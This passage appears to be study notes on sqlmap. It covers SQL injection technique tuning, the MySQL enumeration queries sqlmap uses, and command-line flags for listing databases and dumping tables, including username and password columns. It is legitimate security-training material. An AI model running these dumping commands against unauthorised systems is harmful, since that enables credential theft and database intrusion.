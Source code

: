 - to narrow down the used payloads only to a certain type
- if the time-based blind payloads are causing in the form of response timeouts, if we want to force the usage of a specific SQLi payload type, use the option --technique
- --technique=BEU for Blind, Error based, UNION query payloads

### UNION SQLi Tuning

- if we have found the exact number of columns of the vuln SQL query, we can use this number in SQLMap option as `--union-cols=17`
- for specify the data type `--union-char='a'`

# Database Enumeration

- https://github.com/sqlmapproject/sqlmap/blob/master/data/xml/queries.xml

```xml
<root>
    <dbms value="MySQL">
        <!-- http://dba.fyicenter.com/faq/mysql/Difference-between-CHAR-and-NCHAR.html -->
        <cast query="CAST(%s AS NCHAR)"/>
        <length query="CHAR_LENGTH(%s)"/>
        <isnull query="IFNULL(%s,' ')"/>
...SNIP...
        <banner query="VERSION()"/>
        <current_user query="CURRENT_USER()"/>
        <current_db query="DATABASE()"/>
        <hostname query="@@HOSTNAME"/>
        <table_comment query="SELECT table_comment FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='%s' AND table_name='%s'"/>
        <column_comment query="SELECT column_comment FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema='%s' AND table_name='%s' AND column_name='%s'"/>
        <is_dba query="(SELECT super_priv FROM mysql.user WHERE user='%s' LIMIT 0,1)='Y'"/>
        <check_udf query="(SELECT name FROM mysql.func WHERE name='%s' LIMIT 0,1)='%s'"/>
        <users>
            <inband query="SELECT grantee FROM INFORMATION_SCHEMA.USER_PRIVILEGES" query2="SELECT user FROM mysql.user" query3="SELECT username FROM DATA_DICTIONARY.CUMULATIVE_USER_STATS"/>
            <blind query="SELECT DISTINCT(grantee) FROM INFORMATION_SCHEMA.USER_PRIVILEGES LIMIT %d,1" query2="SELECT DISTINCT(user) FROM mysql.user LIMIT %d,1" query3="SELECT DISTINCT(username) FROM DATA_DICTIONARY.CUMULATIVE_USER_STATS LIMIT %d,1" count="SELECT COUNT(DISTINCT(grantee)) FROM INFORMATION_SCHEMA.USER_PRIVILEGES" count2="SELECT COUNT(DISTINCT(user)) FROM mysql.user" count3="SELECT COUNT(DISTINCT(username)) FROM DATA_DICTIONARY.CUMULATIVE_USER_STATS"/>
        </users>
    ...SNIP...
```

- if user want to retrieve banner (switch --banner)
- current user name - `--current-user`
- current database name - `--current-db` ,etc
- current user has DBA (administrator) right - `--is-dba`
- tables from database - `--tables -D testdb`
- format of table - `--dump-format`
- specifying dump columns - `--dump -T users -D testdb -C username,password`
- specifying rows - `--dump -T users -D testdb --start=2 --stop=3`
- conditional enumeration - `--dump -T users -D testdb --where="name LIKE 'adm%'"`
- `--dump-all --exclude-sysdbs`
- database schema - `--schema`
- search table name user - `--search -T user`
- search column name pass (like password) - `--search -C pass`
